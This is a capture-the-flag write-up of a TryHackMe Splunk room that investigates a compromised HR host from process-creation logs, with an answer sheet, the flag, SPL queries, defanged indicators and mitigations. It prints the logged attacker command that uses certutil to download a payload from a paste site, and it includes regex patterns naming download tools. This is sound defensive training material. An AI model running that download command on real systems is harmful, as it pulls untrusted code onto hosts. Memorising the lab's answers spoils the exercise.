

# TryHackMe — **Benign** | Write-up


> **Room:** [Benign](https://tryhackme.com/room/benign) · **Author:** TryHackMe
> **Log source:** Windows `Security` event channel — **Event ID 4688** (process creation)
> **Index:** `win_eventlogs` (Splunk)

---

> [!WARNING]
> **Spoilers ahead.** This write-up contains the full solution and all answer
> strings for the room. Try the room yourself first — the whole point of *Benign*
> is practising your own Splunk investigation workflow.
>
> These answers are published purely for educational purposes, in line with
> TryHackMe's room rules, and only describe a deliberately vulnerable lab
> environment that TryHackMe owns and operates. Nothing here should be used
> against systems you do not own or have explicit permission to test.

---

## Room at a glance

| Item | Value |
| --- | --- |
| Room | Benign |
| URL | <https://tryhackme.com/room/benign> |
| Focus | Investigating a compromised host with a SIEM (Splunk) |
| Telemetry available | Windows process creation logs, Event ID **4688** only |
| Index | `win_eventlogs` |
| Departments in scope | **IT** (James, Moin, Katrina) · **HR** (Haroon, Chris, Diana) · **Marketing** (Bell, Amelia, Deepak) |
| Questions | 1 in Task 1 (no answer needed) + 10 in Task 2 |
| Flag | `THM{KJ&*H^B0}` |

### Quick answer sheet

| # | Question (short) | Answer |
| --- | --- | --- |
| 2.1 | Logs ingested from March 2022 | `13959` |
| 2.2 | Imposter account | `Amel1a` |
| 2.3 | HR user running scheduled tasks | `Chris.fort` |
| 2.4 | HR user who used a LOLBIN to download a payload | `haroon` |
| 2.5 | Which LOLBIN | `certutil.exe` |
| 2.6 | Date the binary was executed | `2022-03-04` |
| 2.7 | Third-party site used for the download | `controlc.com` |
| 2.8 | File saved on the host from the C2 server | `benign.exe` |
| 2.9 | Flag pattern in the downloaded content | `THM{KJ&*H^B0}` |
| 2.10 | URL the infected host connected to | `https://controlc.com/e4d11035` |

> [!NOTE]
> Older captures of this room use the paste ID `548ab556`; the current lab
> version uses `e4d11035`. Always read the value out of **your own** log entry —
> that is the answer the room expects.

---

## Contents

| Path | What it is |
| --- | --- |
| [`docs/splunk-queries.md`](docs/splunk-queries.md) | Copy-paste SPL query cookbook used in this investigation, with operator explanations |
| [`docs/iocs.md`](docs/iocs.md) | Indicators of compromise extracted from the room, defanged |
| [`detections/sigma/`](detections/sigma) | Two illustrative Sigma rules (certutil download, Temp-path scheduled task) |
| [`detections/splunk/`](detections/splunk) | Splunk searches suitable for a detection / hunting rule |
| `images/` | Drop your own screenshots here if you fork this repo |

---

## Scenario

> One of the client's **IDS** indicated a potentially suspicious process execution,
> suggesting that a host in the **HR department** was compromised. Some tools related
> to network information gathering / scheduled tasks were executed, which confirmed
> the suspicion. Due to limited resources, only the **process execution logs
> (Event ID 4688)** could be pulled and ingested into **Splunk** under the index
> `win_eventlogs` for further investigation.

Two constraints shape the whole investigation:

1. **Single data source.** Event 4688 tells us *what process ran, with what
   command line, by which user, on which host, at what time* — and nothing about
   files written, network connections, registry keys or logons. Every conclusion
   has to be drawn from process-creation telemetry alone.
2. **Three departments, similar naming.** The organisation splits staff across
   **IT**, **HR** and **Marketing**, and usernames in the logs are inconsistently
   formatted (e.g. `haroon`, `Chris.fort`). False positives lurk around every
   corner, so scope queries by department and verify before concluding.

---

## Task 1 — Introduction

Deploy the machine, connect over the VPN or AttackBox, and open Splunk at
`http://MACHINE_IP:8000`. The logs are already indexed in `win_eventlogs`.

**Answer:** *No answer needed.*

---

## Task 2 — Identify and Investigate an Infected Host

Splunk basics used in this room: set the **time picker** to a date range, run a
search, then pivot through the **interesting fields** on the left (`UserName`,
`ProcessName`, `CommandLine`, `HostName`, `EventID`) or use `table` / `stats` /
`rare` to summarise events.

### 2.1 How many logs are ingested from the month of March, 2022?

**Answer:** `13959`

**How.** Search the whole index and constrain the time range to **1 March 2022 →
31 March 2022** with the date-range picker:

```spl
index=win_eventlogs
```

Splunk reports `13959 events` under the search bar. Explicitly, in SPL:

```spl
index=win_eventlogs
| stats count AS total_events
```

**Why it matters.** Establishing the size and coverage of the dataset is the
first step of any log investigation: it tells you whether you are looking at a
complete picture or a partial feed, and which time window your timeline must
stay inside.

### 2.2 Imposter Alert: There seems to be an imposter account observed in the logs, what is the name of that user?

**Answer:** `Amel1a`

**How.** Enumerate the users in the dataset. Looking at the `UserName`
interesting field shows a **Top 10** list that hides one extra value
(`10/11` values); pivot to rare values or de-duplicate the field:

```spl
index=win_eventlogs
| rare limit=20 UserName
```

or

```spl
index=win_eventlogs
| stats count BY UserName
| sort +count
```

One account stands out: **`Amel1a`** — a look-alike of the legitimate Marketing
user **Amelia**, with the digit `1` replacing the letter `i`. The only event for
that account is a `whoami.exe` process creation: harmless-looking on its own,
but classic post-exploitation discovery (`T1033`).

**Why it matters.** This is a **typo-squatting / masquerading account**
(`T1036`) — cheap to miss in a big user list, and precisely the kind of artefact
that username-baseline monitoring should surface. With only 4688 logs we can see
*that* the account ran something, but not *when* it was created; a real
investigation would pivot to 4720/4722 (account created/enabled) events.

### 2.3 Which user from the HR department was observed to be running scheduled tasks?

**Answer:** `Chris.fort`

**How.** Scheduled tasks are created or queried with the built-in binary
**`schtasks.exe`** (Event ID **4698** is the "scheduled task created" event, but
here we only have the process that did the creating). Scope the search to HR
usernames and the scheduled-task binary, then read the command line:

```spl
index=win_eventlogs ProcessName="*schtasks.exe"
| table _time UserName HostName CommandLine
```

The HR-scoped version:

```spl
index=win_eventlogs UserName IN (haroon, "Chris.fort", diana, daina)
| search schtasks.exe
| table _time UserName CommandLine
```

Only one event matches, from **`Chris.fort`**, and the command line is worth
reading closely — a task is created that runs a binary called **`update.exe`**
out of a **`\Temp\`** directory at startup/logon.

**Why it matters.** "Updating Microsoft Office" from `\Temp\` is not something
Microsoft Office does. A scheduled task pointing at a user-writable temp
directory is textbook **persistence** (`T1053.005`) — and it only looks benign
if you stop reading at the process name.

### 2.4 Which user from the HR department executed a system process (LOLBIN) to download a payload from a file-sharing host?

**Answer:** `haroon`

**How.** Restrict the search to HR users and look for command lines containing a
URL, or filter candidate LOLBINs:

```spl
index=win_eventlogs UserName IN (haroon, "Chris.fort", diana, daina) CommandLine="*http*"
| table _time UserName ProcessName CommandLine
```

```spl
index=win_eventlogs UserName IN (haroon, "Chris.fort", diana, daina)
| regex CommandLine="(?i)(-urlcache|urlcache|-download|-split|invoke-webrequest|iwr|curl|wget)"
| table _time UserName ProcessName CommandLine
```

One event is returned, created by user **`haroon`**, running `certutil.exe` with
a command line that pulls a file over HTTPS.

**Why it matters.** [LOLBAS](https://lolbas-project.github.io/) — Living Off the
Land Binaries — are signed, Microsoft-shipped executables that attackers abuse
because they are already trusted on the host. `certutil.exe` is one of the most
common download proxies in the wild.

### 2.5 To bypass the security controls, which system process (lolbin) was used to download a payload from the internet?

**Answer:** `certutil.exe`

**How.** Read the `ProcessName` / `CommandLine` of the event found in 2.4:

```text
certutil.exe -urlcache -f - https://controlc.com/e4d11035 benign.exe
```

**Command-line anatomy**

| Element | Meaning |
| --- | --- |
| `-urlcache` | Use the URL cache sub-command — fetch a remote object |
| `-f` | Force retrieval / overwrite (ignores cached copies) |
| `-` | Treat the trailing argument as the URL |
| `https://controlc.com/…` | Remote payload location |
| `benign.exe` | Local filename written to disk |

`certutil.exe` is designed for certificate management; using it as a download
client is **ingress tool transfer** (`T1105`) via a trusted system binary.

### 2.6 What was the date that this binary was executed by the infected host? format (YYYY-MM-DD)

**Answer:** `2022-03-04`

**How.** Click the event in 2.4 (or table the raw time field) and read the event
timestamp:

```spl
index=win_eventlogs ProcessName="*certutil.exe"
| table _time UserName HostName CommandLine
```

This single event — `2022-03-04` — anchors the whole timeline.

### 2.7 Which third-party site was accessed to download the malicious payload?

**Answer:** `controlc.com`

**How.** It is in the same command line, in the URL argument:

```text
certutil.exe -urlcache -f - https://controlc.com/e4d11035 benign.exe
```

**controlc.com** is a public paste/file-sharing service. Like any legitimate
hosting service, it can be abused to stage malware so the download blends in
with normal web traffic (**T1608.001**, stage capabilities: upload malware).

### 2.8 What is the name of the file that was saved on the host machine from the C2 server during the post-exploitation phase?

**Answer:** `benign.exe`

**How.** The final argument of the `certutil` command line is the output
filename: **`benign.exe`**, written into the working directory of the `haroon`
session. The name is a deliberate joke on the room's title — the file is
anything but benign.

### 2.9 The suspicious file downloaded from the C2 server contained malicious content with the pattern `THM{..........}`; what is that pattern?

**Answer:** `THM{KJ&*H^B0}`

**How.** Process-creation logs do not contain file contents, so pivot from the
process to the *source of the file*: open the URL captured in the command line
in a browser (lab environment only):

```text
https://controlc.com/e4d11035
```

The pasted content on the file-sharing site contains the flag pattern
**`THM{KJ&*H^B0}`**.

> [!TIP]
> When a URL from a log is reachable, treat the site as hostile. Open it in an
> isolated/lab environment (or retrieve it through a sandbox / `curl` in a VM)
> rather than a day-to-day browser.

### 2.10 What is the URL that the infected host connected to?

**Answer:** `https://controlc.com/e4d11035`

**How.** Same event again — the full URL argument of the `certutil.exe` command
line, which is also the source of the flag in 2.9.

In defensive reporting this indicator would be **defanged** so it cannot be
clicked accidentally:

```text
hxxps[://]controlc[.]com/e4d11035
```

---

## Attack chain

Everything below was reconstructed from **one** data source — process creation
events (4688) — which is exactly the point of the room.



| Stage | Observed artefact | Technique |
| --- | --- | --- |
| Discovery | `whoami.exe` under look-alike account `Amel1a` | T1033 System Owner/User Discovery |
| Account masquerading | `Amel1a` vs. legitimate `Amelia` | T1036 Masquerading |
| Persistence | `schtasks.exe` task running `\Temp\update.exe` at startup | T1053.005 Scheduled Task |
| Defence evasion | Signed Microsoft binary `certutil.exe` used as downloader | T1218 / T1140 style LOLBin abuse |
| Command and control | HTTPS download from `controlc.com` | T1105 Ingress Tool Transfer (T1608.001 staging) |

---

## Indicators of compromise

Full, defanged list with context: [`docs/iocs.md`](docs/iocs.md).

| Type | Value |
| --- | --- |
| Suspicious account | `Amel1a` (look-alike of `Amelia`) |
| Process / LOLBIN | `certutil.exe` with `-urlcache -f` |
| Download URL | `hxxps[://]controlc[.]com/e4d11035` |
| Hosting domain | `controlc[.]com` |
| Dropped file | `benign.exe` |
| Persistence artefact | Scheduled task executing `update.exe` from `\Temp\` |
| User accounts involved | `Amel1a`, `Chris.fort`, `haroon` |
| Date of payload retrieval | `2022-03-04` |
| File hash of payload | *not available* — 4688 provides no hashing telemetry |

---

## Detection engineering

The investigation only becomes useful when it turns into detections. This repo
ships working starting points:

* **Sigma rules** — [`detections/sigma/`](detections/sigma)
  * `proc_creation_win_certutil_download_pastehost.yml` — certutil pulling an
    object from a paste/file-sharing host.
  * `proc_creation_win_schtasks_temp_execution.yml` — `schtasks.exe /create`
    pointing at a user-writable directory (`\Temp\`, `\AppData\`, `Users\Public`).
* **Splunk searches** — [`detections/splunk/`](detections/splunk)
  * `certutil_download.spl` — hunting query for LOLBIN downloads.
  * `scheduled_task_temp_path.spl` — hunting query for suspicious scheduled tasks.
  * `lookalike_username.spl` — compares account names to a known-user baseline to
    surface typo-squats like `Amel1a`.

> These rules are **starting points for a lab**, not fire-and-forget production
> content — tune them against your own environment's baselining data.

---

## Mitigation & recommendations

If this were a real incident rather than a lab, the response would move from
detection to containment and hardening:

1. **Contain** — isolate the hosts where `certutil.exe` and `benign.exe` were
   observed (`haroon`'s HR workstation above all).
2. **Eradicate** — delete the malicious scheduled task, remove `benign.exe` and
   `update.exe`, and disable/remove the `Amel1a` account.
3. **Investigate deeper** — acquire the sample and build a full timeline from
   sources the room deliberately withholds: network (proxy/DNS), file creation,
   logon and account-management events (4624/4625/4720/4722), Autoruns,
   `Microsoft-Windows-TaskScheduler` logs.
4. **Block** — add the URL/domain to proxy and DNS blocklists and the payload
   hash to EDR/AV deny lists once it can be calculated.
5. **Harden** — disable `certutil.exe` where it is not legitimately required
   (AppLocker/WDAC), enable **command-line auditing** for 4688, and alert on
   process names that resemble existing users.
6. **Detect** — promote the Sigma rules above into your SIEM/EDR, and monitor
   `schtasks.exe /create` for tasks that reference temp or user-writable paths.
7. **Educate** — brief staff on look-alike accounts and paste-site delivery —
   attackers rely on "it's a signed Microsoft binary" and "it's a normal website"
   assumptions.

---

## Lessons learned

* **One log source is still enough to build a story.** Event ID 4688 alone
  revealed discovery, persistence, a download and a C2 endpoint.
* **Command lines are the evidence.** The process name `certutil.exe` is
  boring; `certutil.exe -urlcache -f - <url> <file>` is a smoking gun. Always
  enable command-line logging with 4688 if you can.
* **Baseline your account list.** `Amel1a` hides in plain sight unless you
  actually enumerate usernames.
* **Legitimate binaries are not automatically legitimate behaviour** — the
  entire premise of LOLBAS.
* **Know your gaps.** We could not hash the payload, see the network connection,
  or confirm account creation. Recognising what your telemetry *cannot* answer
  is as important as reading what it can.

---

## References

* TryHackMe — Benign room: <https://tryhackme.com/room/benign>
* TryHackMe — Splunk 101 / Splunk 201 rooms (prerequisite content)
* LOLBAS Project — `certutil.exe`: <https://lolbas-project.github.io/lolbas/Binaries/Certutil/>
* MITRE ATT&CK — T1053.005 Scheduled Task, T1105 Ingress Tool Transfer,
  T1033 System Owner/User Discovery, T1036 Masquerading
* Microsoft Learn — Security auditing event 4688 (process creation)

---

## License & acknowledgements

* Write-up text: released under the [MIT License](LICENSE).
* Room content, questions and lab environment: © TryHackMe. All room questions
  are quoted only as far as needed to explain the walkthrough.
* This repository exists for learning and portfolio purposes. Use it
  responsibly — only ever test the systems you own or have written permission to
  assess.
